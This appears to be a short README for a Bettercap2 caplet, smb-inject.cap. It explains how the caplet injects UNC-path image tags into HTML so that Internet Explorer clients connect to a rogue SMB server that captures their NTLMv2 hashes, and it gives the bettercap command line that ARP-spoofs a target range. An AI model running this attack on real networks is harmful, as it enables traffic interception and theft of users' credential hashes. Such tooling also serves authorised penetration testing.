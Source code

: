<h1>Bettercap2 Caplets</h1>
<h3>smb-inject.cap</h3>
<br>
__Description__: _Injects HTML image tags using UNC file path references (file://ip/smb.jpg). Forces clients rendering HTML in Internet Explorer, or applications using Windows IE objects, to connect to your SMB server. Run a rogue SMB server to capture NTLMv2 hashes_
<br>
__Related JS__: smb-inject.js
<br>
__Usage__:
<br>
`bettercap -caplet smb-inject.cap -eval "set arp.spoof.targets IP; set smb.listener.ip SMB.Server.IP"`
<br>
__smb.listener.ip__ is the IP to your rogue SMB server
<br>
__arp.spoof.targets__ is the IP (single or CIDR notation) of the range to poison/spoof

